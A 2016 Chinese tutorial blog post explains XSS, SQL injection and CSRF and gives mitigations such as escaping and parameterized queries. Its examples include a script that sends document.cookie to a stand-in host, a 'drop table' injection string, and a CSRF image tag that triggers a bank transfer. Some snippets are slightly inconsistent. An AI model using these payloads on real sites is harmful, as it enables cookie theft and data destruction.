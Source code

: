 ```yaml
---
layout: post
title:  "Web安全"
date:   2016-03-29 22:06:52
categories: security encypt dencypt
comments: true
thread: 20160329220652555
---
```


# 概述

  春风吹，战鼓擂，除了互联网还有谁……

现今互联网在各行各业潜移默化的渗透到我们生活的各个领域， 生活水电煤，淘宝京东购物， 吃喝玩乐新美大等等， 在改变着我们生活的同时，各种门，隐私信息、密码、资金被盗现象频繁发生。Web程序安全问题越来越受到关注。

很多Web应用程序的安全问题都是由于轻信了第三方提供的数据。比如用户输入的数据，验证之前都属于不安全的数据，输出到客户端可能造成XSS跨站脚本攻击；不安全数据作用到数据库，可能产生SQL注入问题；更为危险的一种就是CSRF。那我们作为应用开发者应该怎么办呢？

# XSS(Cross Site Script 跨站脚本攻击)

### XSS成因
XSS其实就是Html的注入问题，攻击者的输入没有经过严格的控制进入了数据库，最终显示给来访的用户，导致可以在来访用户的浏览器里以浏览用户的身份执行Html代码，数据流程如下：攻击者的Html输入—>web程序—>进入数据库—>web程序—>用户浏览器。

### 攻击手段和目的:
攻击者使被攻击者在浏览器中执行脚本后，如果需要收集来自被攻击者的数据（如cookie或其他敏感信息），可以自行架设一个网站，让被攻击者通过JavaScript等方式把收集好的数据作为参数提交，随后以数据库等形式记录在攻击者自己的服务器上。

1. 盗用 cookie ，获取敏感信息。
2. 利用植入 Flash ，通过 crossdomain 权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
3. 利用 iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击）用户的身份执行一些管理动作，或执行一些一般的如发微博、加好友、发私信等操作。
4. 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
5. 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果。

### 攻击示例
```javascript
<script>alert(document.cookie)</script>
location.href='<a href='http://www.xss.com?cookie='+'document.cookie;
while (true) { alert("你关不掉我~");}
```

### 解决方法
- 过滤特殊字符
  对特殊字符过滤或者escape、

- 使用HTTP头指定类型
  set("Content-Type", "text/javascript"), 知道浏览器解析javascript

# SQL注入（SQL Injection）
简称SQL注入攻击，是一种常见的安全漏洞，用来从数据库获取敏感信息，或者避开数据库限制条件的判断。

### 成因
没有对用户输入做有效过滤

### 攻击手段和目的
- 通过串联硬编码字符串和用户输入的字符串而生成一个 SQL 查询

### 攻击示例
```Html
<form ....>
......
<input name="name"></input>
........
</form>
```
```Java
String name = request.getAttribute("name");
String sql = "select * from Order where name = '" + shipCity + "'";
```
假定用户输入以下内容：Coyote'; drop table Order--
此时，脚本将组成以下查询：SELECT * FROM Coyote WHERE name = 'Coyote'; drop table Order--'
啦么，你完蛋了小狼。

### 解决方式
1. 严格限制Web应用的数据库的操作权限，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度减少注入攻击对数据库的危害。
2. 检查输入的数据是否具有所期望的数据格式，严格限制变量的类型，例如使用regexp包进行一些匹配处理。
3. 对进入数据库的特殊字符（'"\尖括号&* ;等) 进行转义处理，或编码转换。
4. 所有的查询语句建议使用数据库提供的参数化查询接口，参数化的语句使用参数而不是将用户输入变量嵌入到SQL语句中，即不要直接拼接SQL语句。

# CSRF(Cross Site Request Forgery 跨站请求伪造)

### 成因
伪造请求，冒充用户在站内的正常操作。
![Web CSRF](/assets/img/security/web_csrf.jpg)

### 攻击手段
绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在 cookie 里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS 或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。

### 攻击示例

- 银行网站A，它以GET请求来完成银行转账的操作，如http://www.mybank.com/Transfer.php?toBankId=11&money=1000
- 危险网站B，它里面有一段HTML的代码如下<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
- 首先，你登录了银行网站A，然后访问危险网站B，噢，这时你会发现你的银行账户少了1000块......

> 为什么会这样呢？原因是银行网站A违反了HTTP规范，使用GET请求更新资源。在访问危险网站B的之前，你已经登录了银行网站A，而B中的<img>以GET的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站A的Cookie发出Get请求，去获取资源“http://www.mybank.com/Transfer.php?toBankId=11&money=1000”， 结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作......\

### 解决方式
一般都是在服务器端做处理：
- 正确使用Get、Post方式
- 非Get请求中增加伪随机数， 使用一次后即丢弃。
- Cookie信息加密


## 参考:
- [浅谈CSRF攻击方式](http://www.cnblogs.com/hyddd/archive/2009/04/09/1432744.html)
- [XSS与CSRF的区别](http://selfcontroller.iteye.com/blog/1844653)
- [AES,SHA1,DES,RSA,MD5区别](http://blog.csdn.net/hengshujiyi/article/details/45972533)

